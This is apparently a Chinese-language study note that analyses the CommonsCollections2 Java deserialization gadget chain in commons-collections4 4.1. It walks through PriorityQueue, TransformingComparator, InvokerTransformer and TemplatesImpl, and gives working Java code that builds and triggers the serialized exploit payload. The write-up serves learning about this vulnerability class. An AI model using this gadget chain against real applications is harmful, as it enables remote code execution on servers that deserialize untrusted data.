



# CommonsCollections2分析

## 1.环境搭建

```xml
<dependency>
    <groupId>org.apache.commons</groupId>
    <artifactId>commons-collections4</artifactId>
    <version>4.1</version>
</dependency>
```

## 2.调试分析

在 commons-collections4:4.1 依赖中原来实现反序列化接口的类被修改了，只能寻找一些其它的类。在该链子中利用`PriorityQueue`作为入口类调用其的compare方法



comparator变量可控，利用`TransformingComparator#compare(...)`，其中存在`transform(...)`方法，同样的`this.transformer`变量可控可序列化



接着利用`InvokerTransformer#transform(...)`,在方法中存在反射调用，所以调用到`TemplatesImpl#newTransformer()`来触发字节码加载。

代码构造如下：

```java
  TemplatesImpl templates = new TemplatesImpl();
  Class templatesImplClass = templates.getClass();

  Field name = templatesImplClass.getDeclaredField("_name");
  name.setAccessible(true);
  name.set(templates,"aaaa");

  Field byteCodes = templatesImplClass.getDeclaredField("_bytecodes");
  byteCodes.setAccessible(true);
  byteCodes.set(templates,new byte[][]{Files.readAllBytes(Paths.get("/Users/me7eorite/Documents/GitHub/Learning-Demo/JavaStudy/target/classes/com/learning/security/serialization/commons/Exp.class"))});

  Field tfactory = templatesImplClass.getDeclaredField("_tfactory");
  tfactory.setAccessible(true);
  tfactory.set(templates,new TransformerFactoryImpl());
//============================================================================================================================================

  InvokerTransformer newTransformer = new InvokerTransformer<>("newTransformer", new Class[]{}, new Object[]{});

  TransformingComparator transformingComparator = new TransformingComparator(newTransformer);

  PriorityQueue priorityQueue = new PriorityQueue(transformingComparator);
  Class priorityClass = priorityQueue.getClass();
  Field size = priorityClass.getDeclaredField("size");
  size.setAccessible(true);
  size.set(priorityQueue,2);

  Field queue = priorityClass.getDeclaredField("queue");
  queue.setAccessible(true);
  queue.set(priorityQueue,new Object[]{templates,templates});


  byte[] serialize = serialize(priorityQueue);
  unSerialize(serialize);
```

## 3.反序列化利用链图


